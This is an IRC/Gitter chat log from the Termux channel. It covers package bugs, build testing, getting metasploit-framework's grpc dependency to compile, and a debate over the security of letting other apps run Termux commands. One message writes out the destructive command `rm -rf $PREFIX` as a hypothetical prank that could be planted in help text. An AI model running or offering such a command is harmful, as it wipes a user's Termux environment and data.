2017-09-25 11:33:56	morantron	i guess pw makes sense in case you accidentaly leak your ssh key files

2017-09-25 11:35:24	morantron	maybe i need to install this? https://github.com/termux/termux-boot

2017-09-25 11:36:59	BrainDamage	yes

2017-09-25 11:37:22	BrainDamage	remember to export the socket infos to a file and then source that from every shell

2017-09-25 11:37:54	frumpylava	BrainDamage: what arch are you on?

2017-09-25 11:38:04	BrainDamage	aarch64

2017-09-25 11:38:25	BrainDamage	i have to go afk for a while

2017-09-25 11:39:04	gitter	(sdrausty) I can see this temptation already. Someone adds `rm -rf $PREFIX` noob to long press help in our app.

2017-09-25 11:39:27	gitter	(Auxilus) sdrausty sry man, I thought you were talking about testing builds

2017-09-25 11:39:34	gitter	(Auxilus) Yes, i tested solitaire

2017-09-25 11:40:04	gitter	(sdrausty) https://github.com/termux/termux-app/pull/436

2017-09-25 11:40:30	gitter	(sdrausty) @Auxilus can you please add the suits?

2017-09-25 11:59:18	gitter	(sdrausty) https://github.com/termux/termux-packages/issues/1536

2017-09-25 12:11:55	sdrausty	Or, long press help in Termux, and out pops, "Get Viagra HTTPS Link" or something similar. Temptation for many spammers and equivalent. 

2017-09-25 12:25:22	gitter	(sdrausty) Has anyone tried cross compiling with Fedora-Docker-Base-24-1.2.armhfp.tar.xz on device?

2017-09-25 12:25:39	gitter	(sdrausty) Termux-Fedora - install Fedora on your phone with Termux

2017-09-25 12:25:55	gitter	(sdrausty) https://nmilosev.svbtle.com/termuxfedora-install-fedora-on-your-phone-with-termux

2017-09-25 13:44:41	gitter	(sdrausty) There's a 26 release in two architectures https://mirror.chpc.utah.edu/pub/fedora/linux//releases/26/Docker/

2017-09-25 15:20:41	gitter	(NeverMine17) How to use termux's programs while being su?

2017-09-25 15:23:32	Grimler	NeverMine17: Why do you want/need to be su?

2017-09-25 16:24:53	gitter	(sdrausty) @cocodevienne no script, just a one-liner

2017-09-25 18:05:29	g093	$ while true; do play-audio America\ -\ Ventura\ Highway-5Ha-ZsGxCb8.mp4; done

2017-09-25 18:09:07	g093	NDK

2017-09-25 18:20:54	g093	https://wiki.termux.com/wiki/Disclosure

2017-09-25 18:26:31	g093	This page isn’t working

2017-09-25 18:26:31	g093	github.com didn’t send any data.

2017-09-25 18:26:31	g093	ERR_EMPTY_RESPONSE

2017-09-25 18:26:59	g093	https://github.com/termux/termux-packages/issues/1580

2017-09-25 18:27:09	g093	flickering since upgrade

2017-09-25 18:27:16	g093	blink

2017-09-25 18:28:04	g093	blink x2many in weechat A 6.0.1 aarch64

2017-09-25 18:39:04	g093	Please test this game out better than tty-solitaire 🎄🎃🎈🏆 let's make this one into a showcase tty if possible. 

2017-09-25 18:40:06	g093	https://github.com/termux/termux-packages/pull/1543

2017-09-25 18:40:11	g093	fx2

2017-09-25 18:40:30	g093	fx2 *fiwx2

2017-09-25 18:40:33	g093	good

2017-09-25 18:43:52	g093	https://github.com/termux/termux-packages/pull/1559

2017-09-25 18:54:50	g093	$ while true; do play-audio Carly\ Simon\ -\ You\'re\ So\ Vain\ \(with\ lyrics\)-b6UAYGxiRwU.mkv; don

2017-09-25 18:55:22	g093	https://m.facebook.com/termux/

2017-09-25 19:00:59	g093	5v29%

2017-09-25 19:14:42	g093	$ while true; do play-audio "Балаклея, Харьков, момент детонации-MpwEZ_9VLD8.mp4"; done

2017-09-25 19:16:25	g093	https://duckduckgo.com/?q=grey+music+background+site%3Aedu

2017-09-25 19:16:40	g093	The Effect of Background Music on Cognitive Performance in ...

2017-09-25 19:20:07	g093	$ youtube-dk https://m.youtube.com/watch?v=MpwEZ_9VLD8

2017-09-25 19:20:48	g093	$ youtube-dk https://m.youtube.com/watch?v=MpwEZ_9VLD8 *$ youtube-dl https://m.youtube.com/watch?v=MpwEZ_9VLD8

2017-09-25 19:22:18	g093	The Effect of Background Music on Cognitive Performance in ...

2017-09-25 19:22:33	g093	https://duckduckgo.com/?q=grey+music+background+site%3Aedu

2017-09-25 21:06:57	g093	frumpylava: https://sites.google.com/site/ghostcommander1/info from app menu of https://github.com/sdrausty/buildAPKsBrowsers/tree/master/ghostcommander-code successfuly built & work in Android. Thank you Termux. 

2017-09-25 21:07:48	g093	regarding moving popup longpress online help

2017-09-25 21:08:43	g093	in Termux topic to wiki

2017-09-25 21:20:15	rods-tab3	NO - the help.html so much better than the wiki

2017-09-25 21:23:57	g093	agreed

2017-09-25 21:27:26	gitter	(sdrausty)  I will try to give it a glance rods-tab3 to see if it is wants an update from our wiki through a github pull.

2017-09-26 00:46:53	misugi	hello, just installed termux

2017-09-26 00:46:57	misugi	i love it

2017-09-26 00:47:07	misugi	ty for making it

2017-09-26 00:47:39	misugi	it feels like being home

2017-09-26 00:47:46	misugi	:)

2017-09-26 01:33:19	Brains-	fornwall: So termux-setup-storage fails on the latest termux release on android 8 on a pixel xl.

2017-09-26 05:34:40	gitter	(suryapoo) Guys...any chance for kotlin on termux?

2017-09-26 05:36:31	azarus	Whenever I open neovim, it creates weird directories, like nvimaQVXq2 or nvimA6GUgI. I assume it uses these directories for backup/swap, but it disturbs some things I do. Any way to turn them off?

2017-09-26 05:54:12	frumpylava	azarus: What does it say when you call ":set backupdir"?

2017-09-26 06:03:14	azarus	frumpylava: backupdir=.,~/.local/share/nvim/backup

2017-09-26 06:03:27	azarus	It likely is the '.,', right?

2017-09-26 06:03:48	azarus	I'll try setting it manually to just'~/.local/share/nvim/backup'

2017-09-26 06:14:28	azarus	It seems to have worked, thanks!

2017-09-26 06:16:56	u0_a92_	iiii

2017-09-26 06:16:58	u0_a92_	jiji

2017-09-26 06:19:10	u0_a92_	join Termux

2017-09-26 06:19:21	u0_a92_	ii

2017-09-26 06:19:44	u0_a92_	exit

2017-09-26 06:20:33	u0_a92	hello?

2017-09-26 06:20:52	u0_a92	anyone ?

2017-09-26 06:21:31	u0_a92	iii

2017-09-26 06:28:36	wolakkk	jjjj

2017-09-26 06:28:54	wolakkk	helooooo

2017-09-26 06:29:04	wolakkk	hellllllooooooooo!

2017-09-26 06:36:00	wolakkk	iii

2017-09-26 06:36:05	wolakkk	hello

2017-09-26 07:22:19	bfortz	Hi, since I upgraded packages yesterday mutt cannot send emails using the embedded smtp anymore. I get a "No authenticators available" error. I suspect an SSL/TLS error or something with libsasl.

2017-09-26 07:22:42	bfortz	I tried to add smtp_authenticators manually but nothing worked.

2017-09-26 07:23:40	bfortz	Maybe due to the fact that libsasl is now build with --disable-gss-api?

2017-09-26 07:25:06	live_the_dream	ooo

2017-09-26 07:25:42	bfortz	As debug is not enabled in mutt, it's hard to figure out what is going wrong... I prefered to ask here before filling a bug report on github...

2017-09-26 07:26:06	live_the_dream	k fair enough

2017-09-26 07:27:23	Grimler	bfortz: I'm experiencing the same (but wasn't sure if I had accidently changed the muttrc)

2017-09-26 07:27:42	wolakkk	hello

2017-09-26 07:28:00	gitter	(Grimler91) wolakkk: hi

2017-09-26 07:28:48	wolakkk	look like I success...

2017-09-26 07:29:00	wolakkk	can I install jdk on termux?

2017-09-26 07:29:18	wolakkk	I want to work and do every thing on this.

2017-09-26 07:31:58	wolakkk	look like no way to do it .......

2017-09-26 07:34:20	bfortz	@Grimler: good to know I'm not alone... I will open an issue on github.

2017-09-26 07:37:13	 *	wolakkk 

2017-09-26 07:38:19	Grimler	bfortz: Please do

2017-09-26 07:38:26	wolakkk	1

2017-09-26 07:38:50	bfortz	wolakkk: afaik jdk is still disabled, I think it's a hard one to build...

2017-09-26 07:39:37	Grimler	wolakkk: see https://github.com/termux/termux-packages/issues/45

2017-09-26 07:44:21	live_the_dream	openjdk is building

2017-09-26 07:44:59	live_the_dream	2 issues its openjdk 9 so a lot of stuff doesn't work

2017-09-26 07:45:14	live_the_dream	and it uses 100% cpu ...

2017-09-26 07:47:23	wolakkk	hello

2017-09-26 07:51:01	Grimler	I'll repeat myself. "wolakkk: see https://github.com/termux/termux-packages/issues/45"

2017-09-26 07:55:26	wolakkk	very thank you.

2017-09-26 10:39:22	trfl	anyone else unable to run programs locally after upgrading to oreo? wget and ncdu just segfaults on startup, likely lots of other software too

2017-09-26 10:52:24	zj1995_	this is what i feared

2017-09-26 11:30:50	fornwall	trfl: wget and ncdu works for me on oreo. may be depending on arch - wich are you on (the output of 'uname -m')?

2017-09-26 11:31:12	fornwall	trfl: also, just to make sure, update with 'pkg up' to ensure running latest version of packages

2017-09-26 11:59:21	gitter	(fornwall) smtp in mutt should work again now after an `pkg up`

2017-09-26 14:03:06	gitter	(Auxilus) @fornwall Can we implement something which can produce the apk when the travis check passes, which we can use as test_apk for testing purposes before you release it to the playstore ?

2017-09-26 14:46:04	gitter	(sdrausty) @Auxilus great idea 🏆

2017-09-26 14:47:06	gitter	(sdrausty) @fornwall one we can install and run, but doesn't interfere with com.termux

2017-09-26 14:47:52	gitter	(sdrausty) Installs as com.termuxDebug for instance or similar.

2017-09-26 14:48:21	gitter	(Auxilus) Or `com.termux.test`

2017-09-26 16:44:30	fornwall	Pinapl: it's an issue with oreo, subscribe to https://github.com/termux/termux-packages/issues/1578 for progress

2017-09-26 17:14:44	icebal	termux is love, termux is life

2017-09-26 17:14:45	icebal	and the reason i dont have to carry a laptop anymore : D

2017-09-26 18:07:45	frumpylava	@sdrausty, @auxilus com.termux.test is not necessairy. ypu can ise chrooted-termux to test packages.

2017-09-26 18:08:18	frumpylava	it's exactly what it is made for.

2017-09-26 18:08:56	frumpylava	Installing things in it will not interfere with your regular termux installation

2017-09-26 19:51:15	u0_a93	tnx ok f

2017-09-26 19:51:22	u0_a93	f

2017-09-26 20:40:09	live_the_dream	k iv got guile working x86 as well as arm now

2017-09-26 20:40:14	live_the_dream	issue was libgc

2017-09-26 20:51:29	g091	b aws tnx ltd

2017-09-26 20:52:09	g091	publish @ur repo plz ltd

2017-09-26 20:52:14	g091	plz

2017-09-26 21:09:53	g091	This page isn’t working

2017-09-26 21:09:53	g091	github.com didn’t send any data.

2017-09-26 21:09:53	g091	ERR_EMPTY_RESPONSE

2017-09-26 22:40:08	gitter	(Auxilus) frumpylava : ik about chroot, we need it to test the app itself not the packages

2017-09-26 23:22:50	gitter	(sdrausty) @Auxilus https://wiki.termux.com/wiki/Draft:Main_Page &

2017-09-26 23:24:09	gitter	(sdrausty) Shouldn't https://wiki.termux.com/wiki/Termux_Wiki:General_disclaimer be locked down?

2017-09-26 23:26:44	gitter	(sdrausty) https://wiki.termux.com/wiki/Draft:Disclaimer

2017-09-26 23:32:27	gitter	(sdrausty) $ while true ; do play-audio Pink\ Floyd\ Live\ The\ Reunion\ Full\ Concert\ \(Enhanced\ Video\)-Twb65Ov67ZA.mp4 ;done

2017-09-26 23:33:14	gitter	(sdrausty) $ while true ; do play-audio Pink\ Floyd\ Live\ The\ Reunion\ Full\ Concert\ \(Enhanced\ Video\)-Twb65Ov67ZA.mp4 \;done

2017-09-27 00:51:40	gitter	(vishalbiswas) so i compiled qtbase for termux and it seems to be working over vnc. people wanting to test can download it from https://drive.google.com/open?id=0B8Q4yBRb9PSHa1pKU1lCRTVnS3M

2017-09-27 00:51:59	gitter	(vishalbiswas) arm binaries are up. i'll try others later today

2017-09-27 01:04:52	gitter	(vishalbiswas) you'll also need to install pcre2 from that folder

2017-09-27 01:05:31	gitter	(vishalbiswas) any compiled qt app can be run over vnc by adding `-platform vnc`

2017-09-27 01:05:45	gitter	(vishalbiswas) you'll need some fonts too

2017-09-27 05:38:25	gitter	(ShadowJonathan) Is the incapability to start scripts from another app a security issue?

2017-09-27 06:14:13	frumpylava	@ShadowJonathan Yes. It's to stop other apps from running arbitrary commands in termux. That's why only pre-approved scrips (via Termux:Widget or Termux:Tasker) are allowed to be from other apps. Otherwise Apps could access private information stored in Termux like E-Mails, SSH Keys and the like.

2017-09-27 06:19:11	gitter	(ShadowJonathan) and what if it could be allowed? i made issue #440, but also proposed a solution to it, to require a user permission granting similair to normal OS's, by prompting them

2017-09-27 06:21:42	gitter	(ShadowJonathan) like someone said in #371, it would allow android developers to broaden their horizons due to termux's package system supplies like node, go, elixir, and more, and the near-equal representation/build of their desktop variants

2017-09-27 06:22:58	gitter	(ShadowJonathan) i am not a java developer, i wouldn't extremely mind against switching my client-app over to it, but i am more comfortable inside a node enviourment, and i think this counts for most developers who create apps like this

2017-09-27 06:29:04	live_the_dream	i can understand your point. why sacrifice when you can use a full linux backend for your app?

2017-09-27 06:29:24	gitter	(ShadowJonathan) What do you mean, exactly?

2017-09-27 06:29:55	gitter	(ShadowJonathan) oh, wait, are you approving of my point? (derp)

2017-09-27 06:29:56	live_the_dream	i mean i understand where you are com8bg from

2017-09-27 06:30:02	gitter	(ShadowJonathan) ah

2017-09-27 06:33:32	gitter	(ShadowJonathan) yeah, aside from being a (fucking) good terminal, it could also allow devs to run their processing backend seperately, and only require minimal knowledge of java & webviews/some basic activities

2017-09-27 07:19:45	gitter	(masterkorp) hello can I string replace variables, like string manipulation?

2017-09-27 07:22:33	gitter	(masterkorp) I have a variable with the name "myvpc" i would like to use it other places but, replace the "vpc" with dhcp dinamically

2017-09-27 07:22:36	gitter	(masterkorp) is that possible?

2017-09-27 07:26:03	BrainDamage	ShadowJonathan: giving the exact command line isn't exactly the best idea in terms of ui, in order to make an informed choice the user would have to consult several manuals to be able to correctly evaluate the risk of running it, if your solution is meant for 'mass adoption' you do need to consider that most users will end up clicking trough yes

2017-09-27 07:26:41	BrainDamage	masterkorp: string manipulation is perfectly possible, but it's not clear what you want to do, is that string the variable name or the variable content?

2017-09-27 07:27:15	gitter	(ShadowJonathan) @BrainDamage that's why i suggest also including warnings and examples in that prompt

2017-09-27 07:28:50	BrainDamage	it's not that simple

2017-09-27 07:29:08	BrainDamage	you need to distinguish the command from the data for example

2017-09-27 07:29:27	BrainDamage	otherwise you'd have to ask for permission everytime the string slightly changes

2017-09-27 07:30:37	BrainDamage	moreover the same command can be ok in some context but not ok in others

2017-09-27 07:31:00	BrainDamage	eg using rm can be ok in a subpath dedicated to a program, but not over the whole fs

2017-09-27 07:31:00	gitter	(ShadowJonathan) the same command, like node, can have different outcomes if the called script changes

2017-09-27 07:31:12	gitter	(ShadowJonathan) you cant RM the whole FS

2017-09-27 07:31:16	gitter	(ShadowJonathan) perm issue

2017-09-27 07:31:25	BrainDamage	you can rm the whole termux fs

2017-09-27 07:31:52	BrainDamage	you can't wipe the phone, but you can make termux dead, including your precious user data

2017-09-27 07:32:04	gitter	(ShadowJonathan) yes, but it'd either be users that know termux and know what they are getting into, or users that just install it sideways for the calling app

2017-09-27 07:32:24	gitter	(ShadowJonathan) if it's the latter, and it kills termux, they can just reinstall it

2017-09-27 07:32:25	BrainDamage	there's your stopgap, your 2nd type of user

2017-09-27 07:33:02	gitter	(ShadowJonathan) like i said above

2017-09-27 07:33:29	BrainDamage	again, not that simple, all the config, etc would get wiped

2017-09-27 07:33:33	BrainDamage	even if the user didn't create it

2017-09-27 07:33:49	BrainDamage	not to mention, the disruption of service

2017-09-27 07:34:05	BrainDamage	or even be able to maliciously infect other apps

2017-09-27 07:34:23	BrainDamage	since all the apps would use the same common pool storage, you can alter the code executed by other apps

2017-09-27 07:35:13	gitter	(ShadowJonathan) this is maybe going to sound exhausting, but what about another layer of permission checking?

2017-09-27 07:35:19	gitter	(ShadowJonathan) each app it's own pool

2017-09-27 07:35:37	gitter	(ShadowJonathan) with being able to execute common programs like node

2017-09-27 07:37:06	BrainDamage	that means essentially reimplementing android filesystem and ipc models in termux's api

2017-09-27 07:37:18	BrainDamage	and creating templates for every program

2017-09-27 07:37:23	gitter	(ShadowJonathan) thats why i said "exhausting"

2017-09-27 07:38:47	gitter	(ShadowJonathan) wait, what do you mean, "templates"?

2017-09-27 07:40:41	frumpylava	How about a whole other approach to executing Code on Termux? You can launch a server program in Termux that listens on a loopback port and you have a client in your app that sends the commands to it. This is currently already possible and wouldn't require any modifications to Termux.

2017-09-27 07:41:07	gitter	(ShadowJonathan) yes yes yes, but that is what i am *trying to start*

2017-09-27 07:41:29	gitter	(ShadowJonathan) but instead of prompting the user to do scary stuff and launch it manually, i am trying to see if i can "magically" initiate that myself

2017-09-27 07:43:56	frumpylava	So you want the user to install termux:api, the termux-api package. Grant permissions to automatically start your server programm. Installing Termux and pasting a single command to (install and) start your server has about the same level of complexity for the user, requiring even less steps.

2017-09-27 07:44:57	frumpylava	Install Termux, install Termux:API, pkg install termux-api, grant permissions

2017-09-27 07:45:09	frumpylava	Install Termux, paste command.

2017-09-27 07:45:15	gitter	(ShadowJonathan) nonono

2017-09-27 07:46:04	gitter	(ShadowJonathan) install termux, install app, open app, get some weird prompting requirement, get switched over to termux and get prompted to allow app to execute code, click yes (if they want to), get switched back to app, and no more whinyness

2017-09-27 07:47:54	gitter	(ShadowJonathan) it's no big deal if people have to paste commands, but i know it'll be hell because termux's handling isnt exactly standard to normal terminals, and most of the users wont even fucking know what a terminal is

2017-09-27 07:48:13	frumpylava	But this interface would never be implemented in termux directly. At best it comes part of Termux:Tasker, but it would probably be it's own Addon.

2017-09-27 07:50:44	frumpylava	And if the target audience for your app is someone who doesn't know about terminals you can't really expect them to install termux sideways.

2017-09-27 07:54:00	gitter	(ShadowJonathan) okay, then lets get back to my reason behind the proposition: how exactly can i run node inside an app?

2017-09-27 07:54:05	gitter	(ShadowJonathan) node 8.5+, to be exact

2017-09-27 07:54:23	gitter	(ShadowJonathan) jxcore is dead, not updated for 2 years

2017-09-27 07:55:58	gitter	(ShadowJonathan) and it needs local file access, to both in-app files, and user files, for file placement and retrieval

2017-09-27 08:11:57	live_the_dream	fornwall libgc pull request ...

2017-09-27 10:29:15	________________	hi

2017-09-27 10:30:03	________________	wtf

2017-09-27 10:30:52	brolly666	+OK efOOC1vd1F1.WeKzP/mVTqP0

2017-09-27 10:30:52	brolly666	+OK wjWuU1V1sOz/

2017-09-27 10:30:55	brolly666	+OK ofpvU.ih4tA1

2017-09-27 10:30:55	brolly666	+OK ofpvU.ih4tA1

2017-09-27 10:30:58	brolly666	+OK KkjbY/NKJAy.

2017-09-27 12:04:12	system16	is this official support for termux ?

2017-09-27 12:04:26	gitter	(ShadowJonathan) (more or less)

2017-09-27 12:04:46	system16	This channel is mirrored   << what does it mean ?

2017-09-27 12:04:59	gitter	(ShadowJonathan) means it also shows up on gitter

2017-09-27 12:05:11	gitter	(ShadowJonathan) https://puu.sh/xKesI/e131e2d70a.png

2017-09-27 12:06:24	system16	ok

2017-09-27 12:06:39	gitter	(ShadowJonathan) what's the problem?

2017-09-27 12:06:46	gitter	(ShadowJonathan) am not a termux dev, but i might help you

2017-09-27 12:06:51	gitter	(ShadowJonathan) can*

2017-09-27 12:06:58	system16	are you talking to me ?

2017-09-27 12:07:09	system16	or  (ShadowJonathan) ?

2017-09-27 12:07:25	gitter	(ShadowJonathan) lmao, i AM shadowjonathan

2017-09-27 12:07:37	gitter	(ShadowJonathan) it's only showing my github full name there

2017-09-27 12:07:39	system16	how can i cancel ping www.google.com ?

2017-09-27 12:07:54	gitter	(ShadowJonathan) hold upper volume button and press `c` on the keyboard

2017-09-27 12:08:00	gitter	(ShadowJonathan) control-c, effectively

2017-09-27 12:08:05	system16	its sending packets...

2017-09-27 12:08:18	gitter	(ShadowJonathan) hold on, what do you mean?

2017-09-27 12:08:22	system16	control c in android ?

2017-09-27 12:08:34	gitter	(ShadowJonathan) yes, that is upper-volume + c

2017-09-27 12:08:47	gitter	(ShadowJonathan) hold the volume button and press c on the keyboard

2017-09-27 12:08:57	gitter	(ShadowJonathan) it'll send `ctrl-c` to the terminal

2017-09-27 12:09:07	gitter	(ShadowJonathan) and to the ping command, which is equal to "shut down pls"

2017-09-27 12:09:09	system16	oh ok thanks

2017-09-27 12:09:24	system16	btw su root or sudo -i doesnt work

2017-09-27 12:09:59	gitter	(ShadowJonathan) ?

2017-09-27 12:10:08	gitter	(ShadowJonathan) thats because the terminal doesnt have access to root in the first place

2017-09-27 12:10:09	gitter	(ShadowJonathan) it's an app

2017-09-27 12:10:11	gitter	(ShadowJonathan) not an admin

2017-09-27 12:10:26	system16	oh ok

2017-09-27 12:10:30	gitter	(ShadowJonathan) everything is still wrapped in the app, it isnt magically becoming "the android terminal"

2017-09-27 12:10:43	system16	lol

2017-09-27 12:11:00	system16	im just using it to ssh into my server (sftp)

2017-09-27 12:11:04	gitter	(ShadowJonathan) i know where you're coming from, but unless root support is added (idk if it is, but it seems very wobbly), and you have root access on your android, it cant do anything outside of the app

2017-09-27 12:11:15	gitter	(ShadowJonathan) hmmmm, dont know anything about shh, unfortunatly

2017-09-27 12:11:25	gitter	(ShadowJonathan) but i heard it's fairly easy to initiate on termux

2017-09-27 12:11:25	gitter	(ShadowJonathan) :)

2017-09-27 12:11:28	system16	ssh

2017-09-27 12:11:31	system16	lol

2017-09-27 12:11:38	system16	what a typo

2017-09-27 12:11:44	gitter	(ShadowJonathan) shush

2017-09-27 12:12:23	gitter	(ShadowJonathan) anything else?

2017-09-27 12:12:28	system16	no thanks

2017-09-27 12:12:40	gitter	(ShadowJonathan) okie, np

2017-09-27 12:37:45	gitter	(HJarausch) I'm trying to get a tiny Java program running. If seen the following instructions: ecj Test.java  dx --dex --output classes.dx Test.class;  dalvikvm -cp classes.dex Test // But the last step fails with "Failed resolution of Test$Node // There is a file Test$Node.class in the home directory where Test.java is stored, as well. What am I missing?

2017-09-27 21:13:36	g089	(+_+)

2017-09-28 00:01:16	gitter	(Auxilus) @timwr @vishalbiswas https://github.com/grpc/grpc/pull/12752

2017-09-28 00:23:00	timwr	Auxilus lol your gprc change could be done in like 2 lines

2017-09-28 00:24:10	gitter	(Auxilus) Sry man, apparently I have less coding knowledge..

2017-09-28 00:24:19	gitter	(Auxilus) I'd appreciate if you could tell me how..

2017-09-28 00:28:43	timwr	http://termbin.com/yq9b

2017-09-28 00:29:00	timwr	just replace `unless windows` with those 3 lines

2017-09-28 00:29:38	timwr	thanks for submitting it though dude!

2017-09-28 00:30:02	timwr	e.g http://termbin.com/ts1j

2017-09-28 00:30:12	timwr	just replace extconf.rb with http://termbin.com/ts1j, should be good

2017-09-28 00:31:11	timwr	I can send a pull request if you want

2017-09-28 00:31:56	gitter	(Auxilus) But I guess we still need to check for termux for LDFLAGS

2017-09-28 00:32:10	timwr	yes, but it does that anyway

2017-09-28 00:32:16	timwr	look at line 78

2017-09-28 00:32:33	timwr	all we need to do is set grpc_lib_dir

2017-09-28 00:33:13	gitter	(Auxilus) Ill just replace extconf with yours..

2017-09-28 00:33:24	timwr	cool thanks man :)

2017-09-28 00:34:22	timwr	you can take out the rest of the changes now, you only need those 3 lines

2017-09-28 00:34:25	gitter	(Auxilus) https://github.com/grpc/grpc/pull/12752/files#diff-b6ff572a922932c58bed002489f270de

2017-09-28 00:34:39	timwr	just submit that one diff by itself

2017-09-28 00:34:40	timwr	https://github.com/grpc/grpc/pull/12752/files#diff-b6ff572a922932c58bed002489f270de

2017-09-28 00:35:29	gitter	(Auxilus) Will it work for latest grpc?

2017-09-28 00:35:35	timwr	try it

2017-09-28 00:35:38	timwr	should do

2017-09-28 00:35:43	gitter	(Auxilus) Cz we've been installing old version for metasploit-framework

2017-09-28 00:36:05	gitter	(Auxilus) Ill unpack latest 1 and replace the extconf..

2017-09-28 00:36:13	timwr	I can bump the grpc version the metasploit-framework when that change lands

2017-09-28 00:36:27	gitter	(Auxilus) Yup..

2017-09-28 00:36:30	timwr	great stuff Auxilus, latest looks good

2017-09-28 00:36:44	gitter	(Auxilus) Also we need to get back to building metasploit-framework..

2017-09-28 00:36:55	gitter	(Auxilus) I've been away from it for like 15 dayd..

2017-09-28 00:37:10	timwr	I failed miserably at cross compiling native extensions lol

2017-09-28 00:37:33	gitter	(Auxilus) 😂

2017-09-28 00:38:02	timwr	I think both the `gem install blah` and `bundle install` end up calling rake-compiler without the CC, CFLAGS, etc

2017-09-28 00:39:01	gitter	(Auxilus) Issue is, `gem install` can't find ruby.h

2017-09-28 00:39:16	timwr	hmm

2017-09-28 00:39:52	timwr	In termux-packages ruby from apt-get install ruby-dev is 2.3.3

2017-09-28 00:40:01	timwr	but we build ruby2.4 for termux

2017-09-28 00:40:56	gitter	(Auxilus) I added sudo apt-get install ruby ruby-dev to build script, still not working..

2017-09-28 00:42:05	gitter	(Auxilus) Gem build threw error..

2017-09-28 00:42:09	timwr	We should use the ruby.h from /data/data, not from ruby-dev I think

2017-09-28 00:42:23	gitter	(Auxilus) I gues we gotta add LDFLAG step to extconf.rb

2017-09-28 00:42:33	timwr	yes

2017-09-28 00:43:15	timwr	or... get rake-compiler to take a new rbconfig.rb

2017-09-28 00:46:35	gitter	(Auxilus) https://github.com/grpc/grpc/pull/12752/files#diff-b6ff572a922932c58bed002489f270de

2017-09-28 00:49:36	gitter	(Auxilus) timwr!!! It worked!!

2017-09-28 00:49:54	gitter	(Auxilus) Building native extensions.  This could take a while...

2017-09-28 00:49:54	gitter	(Auxilus) Successfully installed grpc-1.6.2

2017-09-28 00:49:54	gitter	(Auxilus) 1 gem installed

2017-09-28 00:50:13	gitter	(Auxilus) Should I post the screenshot on the PR?

2017-09-28 00:52:13	gitter	(Auxilus) 1 step closer for `apt install metasploit-framework`

2017-09-28 00:52:46	gitter	(Auxilus) Thanks for your help timwr

2017-09-28 00:59:27	timwr	thanks dude!

2017-09-28 00:59:59	timwr	dude why did you change it again?

2017-09-28 01:00:11	timwr	you don't need to second change lol

2017-09-28 01:00:16	timwr	grpc_lib_dir is already set

2017-09-28 01:01:12	gitter	(Auxilus) Ahhhhhh..... Crap!!!!!!

2017-09-28 01:01:44	timwr	you got it right? it's just 3 lines

2017-09-28 01:01:47	timwr	don't make me PR it myself lol

2017-09-28 01:01:57	gitter	(Auxilus) Done done done

2017-09-28 01:02:02	timwr	good good :)

2017-09-28 01:02:11	gitter	(Auxilus) Now I wont change it again 😁

2017-09-28 01:02:11	timwr	looks perfect

2017-09-28 01:02:14	timwr	<3

2017-09-28 01:02:34	gitter	(Auxilus) I hope they will merge it

2017-09-28 01:03:32	gitter	(Auxilus) Hey I got idea about the metasploit-framework building

2017-09-28 01:04:02	timwr	let's hear it :)

2017-09-28 01:04:34	gitter	(Auxilus) Instead of doing `gem install` can we just unzip the archive to gem path?

2017-09-28 01:07:41	gitter	(Auxilus) I mean unzip the required gem's archive to `/data/data/com.termux/files/usr/lib/ruby/gems/2.4.0/gems`

2017-09-28 01:08:44	gitter	(Auxilus) Or else zip entire /data/data/com.termux/files/usr/lib/ruby/

2017-09-28 01:08:53	gitter	(Auxilus) This would work I guess..

2017-09-28 01:09:50	gitter	(Auxilus) timwr : wut do you think?

2017-09-28 01:11:25	timwr	We can do gem unpack, and gem build

2017-09-28 01:11:25	timwr	but its the same thing

2017-09-28 01:11:27	timwr	as gem install

2017-09-28 01:12:01	gitter	(Auxilus) Not gem unpack..

2017-09-28 01:12:18	gitter	(Auxilus) Install pre installed gems directly to the gem path

2017-09-28 01:13:43	timwr	we need to compile them though

2017-09-28 01:14:56	gitter	(Auxilus) What should we do then?

2017-09-28 01:15:18	gitter	(Auxilus) Yo is there any flags for gem install to set directly for ruby.h?

2017-09-28 01:15:44	timwr	CFLAGS

2017-09-28 01:15:51	gitter	(Auxilus) The error says something like mkmf couldn't find ruby.h

2017-09-28 01:16:13	timwr	it's set correctly when you call `gem install`, but by the time it gets to the compiler it's been cleared

2017-09-28 01:16:53	timwr	I think it gets cleared and replaced with the one from rbconfig.rb

2017-09-28 01:17:11	gitter	(Auxilus) Where is rbconf.rb?

2017-09-28 01:17:57	gitter	(Auxilus) Path for ruby.h is `/data/data/com.termux/files/usr/include/ruby-2.4.0`

2017-09-28 01:18:14	timwr	I think rbconfig.rb is there too

2017-09-28 01:18:54	gitter	(Auxilus) At `/data/data/com.termux/files/usr/include/ruby-2.4.0`?

2017-09-28 03:04:56	gitter	(suryapoo) How to install Java in termux

2017-09-28 03:26:30	gitter	(namuhtobor) Having some problem with chmod command

2017-09-28 03:26:56	gitter	(namuhtobor) input: chmod +x ipgeolocation.py

2017-09-28 03:27:31	gitter	(namuhtobor) Output: chmod: ipgeolocation.py: Operation not permitted

2017-09-28 04:01:15	frumpylava	@namuhtobor. Both the internal shared storage and the sd card don't support executive permissions. You need to move that file into the home directory of termux, which does support more advanced permissions, or run your script with a specified interpreter, ie `python ipgeolocation.py`.

2017-09-28 04:21:34	gitter	(suryapoo) Guys??

2017-09-28 04:22:33	frumpylava	@suryapoo https://github.com/termux/termux-packages/issues/324

2017-09-28 04:24:47	frumpylava	@suryapoo https://github.com/termux/termux-packages/issues/324

2017-09-28 04:24:52	gitter	(suryapoo) @frumpy...hax4us was able to run Java on termux

2017-09-28 04:25:01	gitter	(suryapoo) His repo

2017-09-28 04:25:01	frumpylava	https://wiki.termux.com/wiki/Development_Environments#Java

2017-09-28 04:25:59	gitter	(suryapoo) https://github.com/Hax4us/java.git

2017-09-28 04:26:26	gitter	(namuhtobor) How to move a folder from sdcard to $HOME ?

2017-09-28 04:27:25	timwr	mv /sdcard/folder/ /data/data/com.termux/files/home/folder/

2017-09-28 04:27:39	gitter	(suryapoo) @frumpy ..thanks

2017-09-28 04:37:49	gitter	(namuhtobor) @timwr Operation not permitted

2017-09-28 04:37:59	gitter	(namuhtobor) Whta to do?

2017-09-28 04:38:07	frumpylava	@namuhtobor. Both the internal shared storage and the sd card don't support executive permissions. You need to move that file into the home directory of termux, which does support more advanced permissions, or run your script with a specified interpreter, ie `python ipgeolocation.py`.

2017-09-28 04:38:07	gitter	(namuhtobor) What to do?

2017-09-28 04:38:49	frumpylava	@namuhtobar https://wiki.termux.com/wiki/FAQ#Why_do_I_keep_getting_.27permission_denied.27_when_trying_to_launch_a_script.3F

2017-09-28 04:41:46	gitter	(namuhtobor) Are

2017-09-28 04:45:09	gitter	(namuhtobor) Are you root? Please exicute as root.

